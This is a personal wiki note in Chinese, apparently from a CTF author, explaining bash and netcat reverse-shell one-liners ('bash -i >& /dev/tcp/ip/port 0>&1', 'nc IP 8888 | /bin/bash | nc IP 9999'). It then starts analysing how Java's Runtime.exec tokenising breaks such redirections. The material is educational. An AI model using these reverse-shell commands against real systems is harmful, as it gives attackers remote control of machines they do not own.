 ```yaml
---
{"dg-publish":true,"permalink":"/choco-s-wiki/notes/java-shell/"}
---
```


磐石出题的时候写wp，当时已经能命令执行了，需求是读flag，想用反弹shell，然后就理所当然的写`Runtime.getRuntime().exec("bash -i >& /dev/tcp/ip/port 0>&1");`  这种格式，但是并没有反弹成功。问了OOOO，他分享了一篇文章给我，原来是java 会处理截断命令进行执行，导致反弹shell的重定向没正常跑，所以收集了一些文章，总结了java如何优雅的反弹shell。

# 理解

`bash -i >& /dev/tcp/ip/port 0>&1`

1. `bash -i `创建一个交互式的bash进程
2. `/dev/tcp/ip/port`，linux中所有的程序都是以文件的形式存在。这句话的意思与ip:port建立了一个TCP连接。
3. `>& command >&file`这种写法也等价于`command >file 2>&1`。(其中2>&1表示的就是将文件描述符2重定向到文件描述符1)
4. `0>&1` 将标准输入重定向到标准输出  
    ![Choco‘s wiki/Notes/media/629073686ecd1e40ed38bb0b1616e980_MD5.jpg](/img/user/Choco%E2%80%98s%20wiki/Notes/media/629073686ecd1e40ed38bb0b1616e980_MD5.jpg)
`nc IP 8888 | /bin/bash | nc IP 9999`

8888端口输入命令，9999端口监听输出执行结果  
将8888监听到的数据作为/bin/bash重定向输入，执行传回来的命令，然后再将执行结果作为输入重定向发送给监听主机的9999端口  
![Choco‘s wiki/Notes/media/9a40782d97fb825fc10433d606a398bf_MD5.jpg](/img/user/Choco%E2%80%98s%20wiki/Notes/media/9a40782d97fb825fc10433d606a398bf_MD5.jpg)

# Java反弹shell 截断
## 绕过空格

究其原因，为什么不能直接`Runtime.getRuntime().exec("bash -i >& /dev/tcp/ip/port 0>&1");`还是因为exec的字符串分割问题  
在spoock博文中有做具体分析，这里直接照搬exec的分析  
在java.lang.Runtime()中存在多个重载的exec()方法，如下所示:

```java

public Process exec(String command)
public Process exec(String command, String[] envp)
public Process exec(String command, String[] envp, File dir)
public Process exec(String cmdarray[])
public Process exec(String[] cmdarray, String[] envp)
public Process exec(String[] cmdarray, String[] envp, File dir)
```

除了常见的`exec(String command)`和`exec(String cmdarray[])`，其他`exec()`都增加了envp和File这些限制。虽然如此，但是最终都是调用相同的方法，本质没有却区别。这些函数存在的意义可以简要地参考调用`java.lang.Runtime.exec`的正确姿势  
分析`exec(String cmdarray[])和exec(String command)`:
```java
// exec(String command) 函数
public Process exec(String command) throws IOException {
    return exec(command, null, null);
}
...
public Process exec(String command, String[] envp, File dir)
    throws IOException {
    if (command.length() == 0)
        throw new IllegalArgumentException("Empty command");

    StringTokenizer st = new StringTokenizer(command);
    String[] cmdarray = new String[st.countTokens()];
    for (int i = 0; st.hasMoreTokens(); i++)
        cmdarray[i] = st.nextToken();
    return exec(cmdarray, envp, dir);
}
...
```